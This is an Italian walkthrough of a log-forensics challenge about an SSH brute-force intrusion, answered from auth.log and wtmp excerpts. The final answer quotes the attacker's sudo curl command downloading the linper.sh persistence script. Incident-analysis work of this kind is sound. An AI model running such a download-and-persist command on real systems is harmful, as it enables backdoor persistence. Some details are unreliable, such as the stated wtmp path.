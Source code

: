 ```yaml
---
title: "Brutus Walkthrough"
description: "In questo Sherlock molto facile, ti familiarizzerai con i log Unix auth.log e wtmp. Esploreremo uno scenario in cui un server Confluence è stato compromesso tramite brute-force sul servizio SSH. Dopo aver ottenuto l’accesso, l’attaccante ha svolto ulteriori attività rilevabili tramite auth.log. Anche se auth.log viene usato principalmente per l’analisi dei brute-force, andremo a sfruttare tutto il suo potenziale nell’indagine, inclusi aspetti di privilege escalation, persistenza e persino visibilità sull’esecuzione di comandi."
author: dua2z3rr
date: 2025-09-13 1:00:00
categories: [Sherlocks]
tags: []
---
```


## Introduzione

### Domande
1. Analizza il file auth.log. Qual è l’indirizzo IP usato dall’attaccante per effettuare il brute force?
2. I tentativi di brute force hanno avuto successo e l’attaccante ha ottenuto accesso a un account sul server. Qual è lo username dell’account compromesso?
3. Identifica il timestamp UTC in cui l’attaccante ha effettuato manualmente l’accesso al server e ha avviato una sessione terminale per raggiungere i suoi obiettivi. L’orario di login sarà diverso da quello di autenticazione e si trova nell’artifact wtmp.
4. Le sessioni SSH di login vengono tracciate e viene assegnato loro un numero di sessione al momento dell’accesso. Qual è il numero di sessione attribuito alla sessione dell’attaccante per l’utente dalla domanda 2?
5. L’attaccante ha aggiunto un nuovo utente come parte della sua strategia di persistenza sul server e ha concesso a questo account privilegi elevati. Qual è il nome di questo account?
6. Qual è l’ID della sub-tecnica MITRE ATT&CK utilizzata per la persistenza tramite creazione di un nuovo account?
7. A che ora è terminata la prima sessione SSH dell’attaccante secondo auth.log?
8. L’attaccante ha effettuato il login nel suo account backdoor e ha utilizzato i privilegi elevati per scaricare uno script. Qual è il comando completo eseguito usando sudo?

### Overview

Per completare questo sherlock ci viene fornita una zip. Questa zip contiene 3 file:

1. **auth.log**: file di testo che salva tutti i login (che hanno successo o no), tentativi di sudo e altri passaggi nell'autenticazione. normalmente si trova in `/var/log/auth.log`.
2. **wtmp**: file che traccia login e logout di un sistema linux. È possibile leggere il contenuto tramite il comando `utmpdump`. Si trova in `/var/log/btmp`.
3. **utmp.py**: script di python per leggere wtmp.

## Risposte

### Analizza il file auth.log. Qual è l’indirizzo IP usato dall’attaccante per effettuare il brute force?

Cominciamo a leggere dall'inizio il log file `auth.log`.

```log
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Invalid user admin from 65.2.161.68 port 46380
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Received disconnect from 65.2.161.68 port 46380:11: Bye Bye [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[2325]: Disconnected from invalid user admin 65.2.161.68 port 46380 [preauth]
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: error: beginning MaxStartups throttling
Mar  6 06:31:31 ip-172-31-35-28 sshd[620]: drop connection #10 from [65.2.161.68]:46482 on [172.31.35.28]:22 past MaxStartups
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: Invalid user admin from 65.2.161.68 port 46392
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): check pass; user unknown
Mar  6 06:31:31 ip-172-31-35-28 sshd[2327]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=65.2.161.68
<SNIP>
```

Vediamo che i tentativi falliti di login provengono dallo stesso ip. Questi tentativi di login si presentano molte volte. Possiamo quindi assumere con certezza che l'IP dell'attaccante è quello.

Risposta: `65.2.161.68`

### I tentativi di brute force hanno avuto successo e l’attaccante ha ottenuto accesso a un account sul server. Qual è lo username dell’account compromesso?

Vediamo, proprio all'inizio del file (riga 12), che l'attacco ha avuto successo sull'utente **root**.

```log
<SNIP>
Mar  6 06:19:52 ip-172-31-35-28 sshd[1465]: AuthorizedKeysCommand /usr/share/ec2-instance-connect/eic_run_authorized_keys root SHA256:4vycLsDMzI+hyb9OP3wd18zIpyTqJmRq/QIZaLNrg8A failed, status 22
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
Mar  6 06:19:54 ip-172-31-35-28 sshd[1465]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:19:54 ip-172-31-35-28 systemd: pam_unix(systemd-user:session): session opened for user root(uid=0) by (uid=0)
<SNIP>
```

Risposta: `root`

### Identifica il timestamp UTC in cui l’attaccante ha effettuato manualmente l’accesso al server e ha avviato una sessione terminale per raggiungere i suoi obiettivi. L’orario di login sarà diverso da quello di autenticazione e si trova nell’artifact wtmp.

Utilizzando lo script di python `utmp.py` nella zip possiamo vedere le date dei login. Le prime volte in cui l'attaccante si è autenticato nell'utente **root** era grazie all'attacco brute force. Questo lo capiamo perchè si scollega istantaneamente. Perciò inseriamo la data di quando l'attaccante si è collegato come utente **root** l'ultima volta.

```txt
"RUN_LVL"	"53"	"~"	"~~"	"runlevel"	"6.2.0-1018-aws"	"0"	"0"	"0"	"2024/03/06 07:17:29"	"538024"	"0.0.0.0"
"USER"	"1583"	"pts/0"	"ts/0"	"root"	"203.101.190.9"	"0"	"0"	"0"	"2024/03/06 07:19:55"	"151913"	"203.101.190.9"
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:32:45"	"387923"	"65.2.161.68"
"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 07:37:24"	"590579"	"0.0.0.0"
"USER"	"2667"	"pts/1"	"ts/1"	"cyberjunkie"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:37:35"	"475575"	"65.2.161.68"
```

> Ricordati che la risposta deve essere fornita nella timezone UTC. Visto che nel momento in cui ho usato lo script di python mi trovavo in Italia, devo tornare indietro di un ora.
{: .prompt-warning }

Risposta: `2024-03-06 06:32:45`

### Le sessioni SSH di login vengono tracciate e viene assegnato loro un numero di sessione al momento dell’accesso. Qual è il numero di sessione attribuito alla sessione dell’attaccante per l’utente dalla domanda 2?

Il numero di sessione si può leggere sotto l'entry del log che comunica il login con successo.

```log
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

La sessione che dobbiamo dare come risposta è sempre quella dove l'attaccante si collega manualmente.

Risposta: `37`

### L’attaccante ha aggiunto un nuovo utente come parte della sua strategia di persistenza sul server e ha concesso a questo account privilegi elevati. Qual è il nome di questo account?

Possiamo vedere sul file `auth.log` alla riga 338 la creazione da parte di root di un nuovo utente.

```log
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar  6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
```

Risposta: `cyberjunkie`

### Qual è l’ID della sub-tecnica MITRE ATT&CK utilizzata per la persistenza tramite creazione di un nuovo account?

Cerchiamo online per la risposta.

![Desktop View](/assets/img/brutus/brutus-mitre-research.png)

Per questa tecnica esistono più sotto-tecniche basate sul tipo di account creato.

![Desktop View](/assets/img/brutus/brutus-mitre-sub-technique.png)

L'attaccante ha creato un utente locale.

Risposta: `T1136.001`

### A che ora è terminata la prima sessione SSH dell’attaccante secondo auth.log?

Per rispondere a questa domanda basta vedere la prima sessione dall'attaccante sul file wtmp (ci serve questo format per la risposta), e leggere quando è terminata (DEAD).

```txt
"USER"	"2549"	"pts/1"	"ts/1"	"root"	"65.2.161.68"	"0"	"0"	"0"	"2024/03/06 07:32:45"	"387923"	"65.2.161.68"
"DEAD"	"2491"	"pts/1"	""	""	""	"0"	"0"	"0"	"2024/03/06 07:37:24"	"590579"	"0.0.0.0"
```

Risposta: `2024-03-06 06:37:24`

### L’attaccante ha effettuato il login nel suo account backdoor e ha utilizzato i privilegi elevati per scaricare uno script. Qual è il comando completo eseguito usando sudo?

Controlliamo i comandi utilizzati dopo il login dell'account **cyberjunkie**.

```log
<SNIP>
Mar  6 06:39:01 ip-172-31-35-28 CRON[2764]: pam_unix(cron:session): session closed for user confluence
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
Mar  6 06:39:38 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:39:39 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
<SNIP>
```

Risposta: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
